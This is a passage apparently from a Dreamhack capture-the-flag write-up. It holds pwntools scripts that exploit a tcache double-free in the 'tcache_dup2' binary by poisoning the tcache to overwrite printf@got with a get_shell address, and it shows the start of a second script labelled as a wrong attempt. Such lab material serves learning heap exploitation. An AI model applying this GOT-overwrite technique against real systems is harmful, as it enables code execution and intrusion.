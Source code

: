 ```
def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> printf@got
# tc_idx = 1
# chunk : ptr[0]
printf_got = e.got['printf']
modify(0, 0x10, p64(printf_got))


# tcache[0x20] : printf@got
# tc_idx = 0
# chunk : ptr[1]
create(0x20, b'a')


# 여기서 (tc_idx = 0)이기 때문에, printf@got가 malloc되지 않음
# tcache[0x20] : printf@got
# tc_idx = 0
# chunk : ptr[2]
get_shell = e.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

# `ex_wrong2.py`

```
from pwn import *

p = remote('host3.dreamhack.games', 17171)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


```